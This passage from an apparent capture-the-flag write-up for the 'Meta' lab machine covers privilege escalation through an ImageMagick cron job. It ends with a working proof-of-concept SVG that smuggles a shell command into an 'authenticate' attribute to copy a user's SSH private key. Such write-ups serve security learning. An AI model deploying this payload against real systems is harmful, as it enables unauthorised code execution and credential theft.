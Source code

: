Script is owned by root and running `mogrify` command inside `/var/www/dev01.artcorp.htb/convert_images/` directory.
```bash
(remote) www-data@meta:/$ ls -la ./usr/local/bin/convert_images.sh
-rwxr-xr-x 1 root root 126 Jan  3 10:13 ./usr/local/bin/convert_images.sh
(remote) www-data@meta:/$ cat ./usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

And there is a cron running from user "thomas" that executing `/usr/local/bin/convert_images.sh`

![](screenshots/user-1000-cron.png)

`mogrify` is part of "ImageMagick" and current installed version on the box is "ImageMagick 7.0.10-36"
```bash
(remote) www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ convert -version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib`
```

And there is a bug in ImageMagick before 7.0.10-40. This bug allow an attacker to execute shell commands using ImageMagick PDF-parsing via maliciously crafted svg file.

* https://portswigger.net/daily-swig/imagemagick-pdf-parsing-flaw-allowed-attacker-to-execute-shell-commands-via-maliciously-crafted-image
* https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

PoC file.
```svg
<image authenticate='ff" `echo $(cat /home/thomas/.ssh/id_rsa) > /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
